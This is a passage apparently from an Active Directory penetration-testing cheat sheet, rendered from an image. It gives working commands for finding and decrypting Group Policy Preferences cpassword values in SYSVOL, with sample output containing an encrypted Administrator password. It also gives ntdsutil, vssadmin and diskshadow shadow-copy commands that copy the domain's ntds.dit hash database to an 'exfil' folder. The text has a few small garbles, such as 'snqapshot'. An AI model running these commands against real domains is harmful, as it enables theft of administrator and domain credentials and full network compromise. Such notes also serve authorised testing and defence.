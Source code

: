 ```
findstr /S cpassword \\dc1.securus.corp.com\sysvol\*.xml \\192.168.122.55\sysvol\securus.corp.com\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml: ="" description="" cpassword="1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs" changeLogon="0" noChange="0" neverExpires="0" acctDisabled="1" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/>
```
Search in `C:\ProgramData\Microsoft\Group Policy\history` or in **_C:\\Documents and Settings\\All Users\\Application Data\\Microsoft\\Group Policy\\history_** _(previous to W Vista)_ for these files:
* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

Decrypt the passwords:
```
ruby gppdecrypt.rb 1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs1q2w3e4r5t
gpp-decrypt <hash>
```
####  Dump hashes from DC (SeBackUp)
##### Get sensitive files
Try to list shadow copies:
```
# ntdsutil
ntdsutil
snqapshot
activate instance NTDS
list all

# vssadmin
vssadmin list shadows
  
# diskshadow
diskshadow list shadows all

# vssown
cscript vssown.vbs /start
cscript vssown.vbs /list

## Powersploit
Import-Module .\\VolumeShadowCopyTools.ps1
Get-VolumeShadowCopy
```
Try to create a shadow copy:
```
# ntdsutil
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit

# vssadmin
vssadmin create shadow /for=C: 2>&1

# diskshadow
diskshadow.exe /s c:\diskshadow.txt
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```